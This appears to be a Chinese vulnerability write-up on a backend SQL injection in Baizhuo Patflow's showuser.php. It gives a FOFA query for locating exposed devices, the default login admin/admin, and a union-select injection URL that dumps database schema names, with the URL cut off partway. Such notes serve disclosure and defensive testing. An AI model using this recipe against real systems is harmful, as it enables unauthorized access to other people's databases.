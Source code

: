 # 百卓 Patflow showuser.php 后台SQL注入漏洞

## 漏洞描述

百卓 Patflow showuser.php文件参数过滤不充分，导致后台存在SQL注入漏洞

## 漏洞影响

```
百卓 Patflow
```

## FOFA

```
"Patflow"
```

## 漏洞复现

登录页面

![image-20220519183747439](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191837588.png)

默认口令登录后台 admin/admin

存在漏洞的文件为 shwouser.php,验证POC为

```
/user/showuser.php?id=1%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,(select%20group_concat(SCHEMA_NAME)%20f
```

![image-20220519183758066](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191837110.png)